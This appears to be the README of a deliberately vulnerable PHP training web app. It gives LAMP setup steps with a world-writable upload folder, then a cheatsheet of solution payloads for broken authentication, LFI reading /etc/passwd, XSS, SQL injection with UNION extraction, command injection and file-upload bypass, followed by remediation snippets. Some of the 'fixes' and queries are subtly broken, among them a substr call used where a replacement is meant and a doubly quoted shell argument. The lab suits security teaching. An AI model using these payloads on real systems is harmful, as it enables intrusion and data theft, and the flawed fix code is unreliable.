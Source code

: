 # Installation
 LAMP basique...

```
sudo apt install apache2 php libapache2-mod-php mysql-server php-mysql
```
déplacer dossier vers /var/www/html

script.sql pour database

```
sudo mkdir /var/www/html/upload/
sudo chmod -R 777 /var/www/html/upload => right in folder
```


# Cheatsheet
<details>
<summary> Click me</summary>

## Broken authentication
Level 1
admin:password

- weak password
- default password
- GET parameters


Level 2

alice:123456789

- error message


## Broken Access Control
?sessionid=120983


## LFI

?topic=../../../../../../etc/passwd
?topic=php://filter/convert.base64-encode/resource=secret.php

## XSS
Level 1
<script>alert('XSS')</script>

Level 2
<script>alert('XSS')</script>

Modifier le contenu du premier message : 
<script>document.getElementsByTagName("p").item(1).innerHTML="Modifié par un hacker"</script>

Level 3 
Uniquement pseudo

Level 4
<img src="x" onerror="alert('XSS')"/>


## SQLi
Level 1
' or 1=1; -- 
a

admin' and 1=1; -- 
Level 2
uniquement password 
' or 1=1; --


Level 3
' union select null; -- 
' union select 'a','b','c','d'; -- 
' UNION select null, table_name,null,null from information_schema.tables; -- 
' UNION select null, column_name,null,null from information_schema.comluns where table_name='sql1'; -- 
' union select null,username,password,null from table='sql1'; --


## Command injection
Level 1
google.fr; ls


Level 2
google.fr" && ls #

## PHP file upload
try to upload .php3, .php4, .php5, .phtml...

5 secrets : 


1 - fuzzing 
secret.php

robots.txt => /96bd94aa09f61018abeaf0cd7b7c6387.php

code source => 33a2838ab91f7f01a24da38cb55cae10.php

?topic=php://filter/convert.base64-encode/resource=secret.php

Extract .git with GitTools
git restore .

</details>

# Fixs

<details>
<summary>Click me</summary>

## Broken auth
Level 1 
$_POST au lieu de  $_GET
Changer mot de passe

Level 2
retirer le message d'erreur 'l'utilisateur 'admin' n'existe pas'

Level 3
Faire le hash sha256 coté serveur et non coté client
! ne jamais faire confiance au front


## XSS
`htmlentities()` ou `htmlspecialchars()`

## LFI

```
<a class="btn" href="1.php?topic=fr"> Français</a>
<a class="btn" href="1.php?topic=en">Anglais</a>
<br>
<p>
<?php
if (isset($_GET['topic'])) {
    $topic = substr('../', '', $_GET['topic']);
    include('context'.$topic.'.txt');
}
?>
```
## SQLi 
requête preparée

```
  $stmt = $conn->prepare("SELECT * FROM sql1 WHERE username = ? AND password = ?");
  $stmt->bind_param("ss", $username, $password);
  $stmt->execute();
  $result = $stmt->get_result();
```

## Command injection 
```
        if (strstr($_REQUEST['host'], ';') || strstr($_REQUEST['host'], '|') || strstr($_REQUEST['host'], '&') || strstr($_REQUEST['host'], '>') || strstr($_REQUEST['host'], '<')) {
            $result = "Attaque detectée !";
        } else {
            $cmd = 'ping -c 4 "'.escapeshellarg($_POST['host']).'" 2>&1';
            $result = system($cmd);
        }
```

## File upload 
```
    $mime_type = mime_content_type($_FILES['file']['tmp_name']);
    $allowed_file_types = ['image/png', 'image/jpeg', 'plain/text'];
    if (! in_array($mime_type, $allowed_file_types)) {
        // File type is NOT allowed.
    }
```

</details>